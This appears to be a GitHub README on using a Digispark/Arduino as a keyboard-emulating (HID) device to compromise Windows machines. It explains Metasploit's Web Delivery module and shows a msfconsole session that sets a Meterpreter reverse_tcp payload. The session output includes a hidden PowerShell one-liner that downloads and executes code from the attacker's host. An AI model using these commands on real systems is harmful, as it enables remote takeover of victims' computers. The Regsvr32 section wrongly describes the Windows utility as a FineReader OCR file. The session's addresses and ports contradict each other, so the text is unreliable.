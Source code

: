 ## Downloads 

These software only run on windows machine.

- Download the arduino IDE: https://goo.gl/4YgErk

- Get the drivers: https://goo.gl/r3pn1b

- Additional Board Manager URL: https://goo.gl/874mE2

- DigiKeyboard Source Code: https://goo.gl/1fkWGU

## Arduino HID

Transforming Arduino into `HID` (Human Interface detect).

**Vídeo Youtube**

[![Everything Is AWESOME](https://i.ytimg.com/an_webp/fGmGBa-4cYQ/mqdefault_6s.webp?du=3000&sqp=CJSX2c8F&rs=AOn4CLDLtzL-sGYoW7W2G-NFuSvpvuTB_Q)](https://youtu.be/fGmGBa-4cYQ "Everything Is AWESOME")

## Exploiting windows

### Web Delivery

Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.

This exploit requires a method of executing commands on the victim machine. In particular you must be able to reach the attacking machine from the victim. Remote command execution is a great example of an attack vector where using this module is possible. The web delivery script works on php, python, and powershell based applications.

This exploit becomes a very useful tool when the attacker has some control of the system, but does not possess a full shell. In addition, since the server and payload are both on the attacking machine, the attack proceeds without being written to disk. This helps keep the attacking fingerprint low.

<a href="https://www.offensive-security.com/metasploit-unleashed/web-delivery/">Offensive Security</a>

### Regsvr32

Regsvr32.exe is an EXE file type associated with FineReader OCR, developed by Abbyy USA Software House Inc. for the Windows operating system. The most recent known version of Regsvr32.exe is 1.0.0.0, which was produced for Windows. This EXE file loads a popular 1-star rating and an "Unknown" security rating.

<a href="http://www.solvusoft.com/pt-br/files/erro-remo%C3%A7%C3%A3o-do-v%C3%ADrus/exe/windows/abbyy-usa-software-house-inc/finereader-ocr/regsvr32-exe/">Solvusoft</a>

### Comandos Metasploit

The following is the <b>msfconsole</b>

<img src="http://i.imgur.com/rtqbJAH.png"></img>

<pre>
<b>msf auxiliary(gitlab_user_enum) > </b>use exploit/multi/script/web_delivery <br>
<b>msf exploit(web_delivery) > </b>set target 2 <br>
<b>target => </b>2 <br>
<b>msf exploit(web_delivery) > </b>set payload windows/meterpreter/reverse_tcp <br>
<b>payload => </b>windows/meterpreter/reverse_tcp <br>
<b>msf exploit(web_delivery) > </b>set LHOST 192.168.86.6 <br>
<b>LHOST => </b>192.168.86.6 <br>
<b>msf exploit(web_delivery) > </b>set LPORT 4444 <br>
<b>LPORT => </b>4444 <br>
<b>msf exploit(web_delivery) > </b>exploit <br>
<b>[*]</b> Exploit running as background job. <br><br>

<b>[*]</b> Started reverse TCP handler on 192.168.0.100:2333 <br>
<b>[*]</b> Using URL: http://0.0.0.0:9090/WXCOjGGir <br>
<b>msf exploit(web_delivery) </b>
<b>[*]</b> Local IP: http://192.168.0.100:9090/WXCOjGGir <br>
<b>[*]</b> Server started. <br>
<b>[*]</b> Run the following command on the target machine: <br>
powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('http://192.168.0.100:9090/WXCOjGGir');
</pre>
